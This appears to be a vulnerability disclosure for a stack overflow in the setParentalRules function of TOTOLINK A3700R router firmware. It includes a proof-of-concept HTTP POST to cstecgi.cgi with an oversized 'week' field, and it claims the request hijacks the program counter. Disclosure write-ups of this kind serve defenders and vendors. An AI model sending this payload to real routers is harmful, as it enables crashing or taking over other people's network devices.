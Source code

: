 # TOTOLINK_A3700R_V9.1.2u.6165_20211012has a stack overflow vulnerability

## Overview

- Firmware download address: https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A3700R V9.1.2u.6165_20211012 router, the latest version of simulation overview：

![image-20240104001414887](image/image-20240104001414887.png)

## Vulnerability details

setParentalRules

![image-20240104154924505](image/image-20240104154924505.png)

`V17` is a variable on the stack, while `v7 v8 v9` is a user controllable variable. The sprintf function caused a stack overflow

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 71
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/basic/index.html
Cookie: SESSION_ID=2:1700540000:2

{

"topicurl":"setParentalRules",

"addEffect":"3",

"week":"b"*0x100,

}
```

The above figure shows the POC attack effect

![image-20240104155055604](image/image-20240104155055604.png)

As shown in the figure above, we can hijack PC registers.

![image-20240104001939085](image/image-20240104001939085.png)